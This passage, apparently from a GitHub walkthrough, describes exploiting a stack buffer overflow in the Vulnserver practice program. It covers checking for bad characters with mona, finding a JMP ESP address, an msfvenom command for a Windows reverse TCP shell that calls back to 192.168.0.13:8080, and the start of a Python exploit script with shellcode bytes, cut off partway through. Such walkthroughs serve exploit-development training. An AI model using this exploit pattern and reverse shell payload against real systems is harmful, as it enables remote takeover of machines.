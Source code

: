
we have a badchar ```0x00``` , but I will need to check if there are any other bad char repeating the same process again.

we genarate our new bytearray , but execluding our bad char from the first output.

``` !mona bytearray -cpb "\x00" ```

we compare again if any byte were modified from the crash to see our badchar, and we don't have anyother badchar 

![Vulnserver_5](/static/img/01/7.png)


# Redirecting the Execution Flow

In this step we have to check the registers and the stack. We have to find a way to jump to our buffer to execute our code. ESP points to the beginning of the C part of our buffer. We have to find a JMP ESP or CALL ESP instruction. Do not forget, that the address must not contain bad characters!

![Vulnserver_6](/static/img/01/8.png)


### Generating Shellcode with Metasploit

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.13 LPORT=8080 -b "\x00" -f python -v shellcode 

Place the generated code into the PoC script and update the buffer, so that the shellcode is placed after the EIP, in the C part. Place some NOP instructions before the shellcode. (NOP = 0x90) The final exploit:

```python 
#!/usr/bin/python
import socket
import struct

shellcode =  ""
shellcode += "\xb8\xc5\x97\xc9\x70\xdb\xc1\xd9\x74\x24\xf4\x5b"
shellcode += "\x2b\xc9\xb1\x52\x31\x43\x12\x03\x43\x12\x83\x06"
shellcode += "\x93\x2b\x85\x74\x74\x29\x66\x84\x85\x4e\xee\x61"
shellcode += "\xb4\x4e\x94\xe2\xe7\x7e\xde\xa6\x0b\xf4\xb2\x52"
shellcode += "\x9f\x78\x1b\x55\x28\x36\x7d\x58\xa9\x6b\xbd\xfb"
shellcode += "\x29\x76\x92\xdb\x10\xb9\xe7\x1a\x54\xa4\x0a\x4e"
shellcode += "\x0d\xa2\xb9\x7e\x3a\xfe\x01\xf5\x70\xee\x01\xea"
shellcode += "\xc1\x11\x23\xbd\x5a\x48\xe3\x3c\x8e\xe0\xaa\x26"
shellcode += "\xd3\xcd\x65\xdd\x27\xb9\x77\x37\x76\x42\xdb\x76"
shellcode += "\xb6\xb1\x25\xbf\x71\x2a\x50\xc9\x81\xd7\x63\x0e"
shellcode += "\xfb\x03\xe1\x94\x5b\xc7\x51\x70\x5d\x04\x07\xf3"
shellcode += "\x51\xe1\x43\x5b\x76\xf4\x80\xd0\x82\x7d\x27\x36"
shellcode += "\x03\xc5\x0c\x92\x4f\x9d\x2d\x83\x35\x70\x51\xd3"
shellcode += "\x95\x2d\xf7\x98\x38\x39\x8a\xc3\x54\x8e\xa7\xfb"
shellcode += "\xa4\x98\xb0\x88\x96\x07\x6b\x06\x9b\xc0\xb5\xd1"
shellcode += "\xdc\xfa\x02\x4d\x23\x05\x73\x44\xe0\x51\x23\xfe"
shellcode += "\xc1\xd9\xa8\xfe\xee\x0f\x7e\xae\x40\xe0\x3f\x1e"
shellcode += "\x21\x50\xa8\x74\xae\x8f\xc8\x77\x64\xb8\x63\x82"
shellcode += "\xef\x07\xdb\x8c\xe2\xef\x1e\x8c\xe3\x7f\x97\x6a"
shellcode += "\x71\x90\xfe\x25\xee\x09\x5b\xbd\x8f\xd6\x71\xb8"
shellcode += "\x90\x5d\x76\x3d\x5e\x96\xf3\x2d\x37\x56\x4e\x0f"
shellcode += "\x9e\x69\x64\x27\x7c\xfb\xe3\xb7\x0b\xe0\xbb\xe0"
shellcode += "\x5c\xd6\xb5\x64\x71\x41\x6c\x9a\x88\x17\x57\x1e"
shellcode += "\x57\xe4\x56\x9f\x1a\x50\x7d\x8f\xe2\x59\x39\xfb"
shellcode += "\xba\x0f\x97\x55\x7d\xe6\x59\x0f\xd7\x55\x30\xc7"
shellcode += "\xae\x95\x83\x91\xae\xf3\x75\x7d\x1e\xaa\xc3\x82"
shellcode += "\xaf\x3a\xc4\xfb\xcd\xda\x2b\xd6\x55\xea\x61\x7a"
```
